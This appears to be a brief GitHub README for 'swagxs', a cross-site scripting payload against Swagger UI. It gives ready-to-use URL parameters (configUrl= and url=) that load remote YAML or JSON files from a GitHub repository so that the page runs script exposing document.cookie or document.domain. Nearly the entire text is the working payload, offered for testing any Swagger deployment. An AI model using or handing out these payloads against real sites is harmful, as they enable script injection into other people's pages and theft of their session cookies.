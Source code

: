 # swagxs
You can use just add this parameter to the URL of Swagger and see if it pops an alert:

`?configUrl=https://raw.githubusercontent.com/ir3shio/swagxs/main/test.json`

Sometimes the payload won’t work so check this one:
 
for document.cookie value
`?url=https://raw.githubusercontent.com/ir3shio/swagxs/main/test.yaml`

for document.domain value
`?url=https://raw.githubusercontent.com/ir3shio/swagxs/main/test2.yaml`

